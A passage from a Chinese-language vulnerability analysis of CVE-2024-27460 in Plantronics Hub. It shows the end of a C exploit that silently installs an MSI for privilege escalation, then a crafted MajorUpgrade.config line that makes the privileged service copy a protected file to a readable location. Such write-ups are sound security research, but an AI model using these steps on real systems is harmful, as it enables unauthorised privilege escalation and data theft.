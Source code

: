 ```php
    MsiSetInternalUI(INSTALLUILEVEL_NONE, NULL);
    UINT a = MsiInstallProduct(msipackage, L"ACTION=INSTALL");
    printf("%d\n", a);
    MsiInstallProduct(msipackage, L"REMOVE=ALL");
    DeleteFile(msipackage);
    return 0;
}
```

最后可以做到成功提权：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1716020905704-348a0561-f7b3-4809-bc2d-1dac6ef8388c.png)

任意文件读取
------

除了提权之外，还存在一个任意文件读取漏洞。

提权时我们使用了一个`MajorUpgrade.config`文件，该文件是升级使用的配置文件，会被服务进行读取内容并执行，如果我们自己写入文件内容，则会以高权限进行读取，并将结果放入`C:\Program Files (x86)\Plantronics\Spokes3G\UpdateServiceTemp`目录中。

我们新建111.txt一个文件并限制权限，普通用户禁止读取：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1716024088116-565574f7-c67e-4131-85fa-7a5bcce289c0.png)

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1716024019594-1e9f3c7c-daf3-40dc-ae7a-657fc0ad91f6.png)

然后写入到`C:\ProgramData\Plantronics\Spokes3G\MajorUpgrade.config`文件中：

```php
%username%|advertise|C:\Users\root\Downloads\111.txt
```

等待服务扫描该文件，可触发备份功能：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1716024684413-b518118e-32c0-42cf-9089-5a520e88e978.png)

可以看到该文件从高权限文件中进行了备份，最后当前用户可读：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1716024735759-981f1045-d9ee-48cc-89b1-2b8ccd45e52f.png)

此处任意文件读取漏洞是一个比较常见的逻辑漏洞。

总结
==

这个漏洞分析我感觉很大的难点就是找不到Plantronics Hub指定版本的下载链接。找了好久才找到。

参考链接
====

<https://github.com/xct/CVE-2024-27460>